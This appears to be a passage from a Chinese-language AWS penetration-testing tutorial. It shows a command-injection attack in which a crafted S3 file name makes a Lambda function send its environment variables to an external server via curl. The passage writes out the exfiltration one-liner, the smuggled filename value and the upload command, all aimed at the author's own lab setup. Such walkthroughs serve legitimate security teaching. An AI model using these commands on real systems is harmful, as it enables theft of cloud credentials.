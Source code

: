 然后，我们将制定一个有效载荷，将窃取凭证。我们可以使用`"env"`命令访问环境变量，因此用 curl 向我们的外部服务器发出 HTTP POST 请求的一般命令，其中包括所有环境变量作为主体，如下所示：

```
curl -X POST -d "`env`" 1.1.1.1
```

这可能看起来有点奇怪，但因为`"env"`命令提供多行内容，所以需要将其放入引号中，否则它将破坏整个命令（尝试在自己的服务器上运行`"curl -X POST -d env 1.1.1.1"`并查看结果）。如果您不熟悉，反引号（`` ` ``）指示 bash 在执行整个`curl`命令之前运行`"env"`命令，这样它就会将这些变量`POST`到我们的外部服务器。此外，因为我们的服务器正在侦听端口`80`，所以我们不需要在`curl`命令中包括`http://`或端口，因为给定一个IP地址，默认情况下转到`http://1.1.1.1:80`. 这样我们可以避免很多不必要的字符。这可能不一定是一种传统的方法，但这个字符串的好处在于它很容易放入文件名，这正是我们利用这个 Lambda 函数所需要的！

回到我们的有效载荷；现在，我们需要将一个文件上传到 S3，文件名称如下：

```

hello;curl -X POST -d "`env`" 1.1.1.1;.zip

```

由于其中有双引号，Microsoft Windows 不允许您创建具有这个名称的文件，但在 Linux 中很容易做到。我们可以使用`touch`命令来创建文件。它看起来像这样：

```

touch 'hello;curl -X POST -d "`env`" 1.1.1.1;.zip'

```

上述命令的输出将如下所示：

![](img/215c8c00-1f95-48dd-b752-e4274bc82d14.png)

在我们自己的 Ubuntu 服务器上创建一个恶意名称的文件

现在一切都准备就绪了。我们只需确保我们的 NetCat 监听器已经在我们的外部服务器上启动，然后将此文件上传到 `bucket-for-lambda-pentesting` S3 存储桶，然后等待 Lambda 函数被调用，最后等待我们的恶意命令执行。我们可以通过使用 S3 `copy` AWS CLI 命令将我们的本地恶意文件复制到远程 S3 存储桶来上传它：

```

aws s3 cp ./'hello;curl -X POST -d "`env`" 1.1.1.1;.zip' s3://bucket-for-lambda-pentesting --profile LambdaReadOnlyTester

```

因为我们的恶意文件名，它看起来有点乱，但它所做的就是使用 S3 `copy` 命令作为`LambdaReadOnlyTester` AWS CLI 配置文件，将我们的本地恶意文件复制到`bucket-for-lambda-pentesting` S3 存储桶。执行此命令后，我们只需等待并观察我们的 NetCat 监听器，希望能获取一些凭据！几秒钟后，我们将看到以下内容：
